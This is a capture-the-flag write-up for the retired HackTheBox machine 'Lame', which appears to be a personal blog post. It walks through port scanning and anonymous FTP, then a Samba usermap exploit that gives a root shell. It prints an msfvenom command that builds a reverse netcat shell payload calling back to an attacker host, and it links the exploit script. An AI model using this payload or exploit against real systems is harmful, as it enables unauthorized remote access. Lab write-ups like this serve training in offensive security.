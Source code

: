 ```yaml
---
title: Lame Hackthebox Writeup
date: 2020-12-23 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,ftp,vsftpc,samba exploit,ftp anonymous login]     # TAG names should always be lowercase
image: /assets/img/lame-hackthebox/lame-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Lame:~$


Column | Details
------------ | -------------
Name | Lame
IP | 10.10.10.3
Points | 20
Os | Linux
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 26th May 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* `Anonymous ftp` is allowed, but of no use.
* Found `samba exploit` for the version running on the machine.
* Got Root directly.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/lame-hackthebox/nmap-scan-1.png)

From a `quick scan` we know that `4 Ports` are open i.e. `21,22,139,445`. Let's access port 21 `ftp` for anonymous logins.

___
![](/assets/img/lame-hackthebox/ftp-login-2.png)

But it's of no use as the directories are `empty`.

I googled a bit about the `smb` version running and found this [exploit](https://gist.githubusercontent.com/joenorton8014/19aaa00e0088738fc429cff2669b9851/raw/6e1ae37e0061be103fd733b16266d26379a7f4ba/samba-usermap-exploit.py)

Making changes in the *exploit* by replacing it with our `msfvenom payload`.

**msfvenom command** : *msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.X.X LPORT=9999 -f python*

___
![](/assets/img/lame-hackthebox/changing the payload-4.png)

This is what the final exploit looks like: (*changing the payload with our payload*)

___
![](/assets/img/lame-hackthebox/my-final-exploit-6.png)

Running the exploit and listeing on specified port using `nc`, we got the `Root shell`.

___
![](/assets/img/lame-hackthebox/got-root-shell-7.png)


